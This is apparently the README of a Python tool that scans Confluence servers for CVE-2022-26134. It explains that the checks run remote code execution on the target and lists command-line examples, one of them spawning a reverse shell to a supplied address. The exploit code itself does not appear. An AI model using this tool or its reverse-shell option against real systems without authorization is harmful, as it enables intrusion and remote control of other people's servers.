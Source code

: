 ## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* Tested on win/nix, python 2.7 - 3.X
* Dependencies: argparse, requests
* Checks are invasive- meaning RCE will be performed (but on a non-destructive way)
* Example usage: 
  - python confluenceRCE.py -t 127.0.0.1
  - python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
  - python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
  - python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
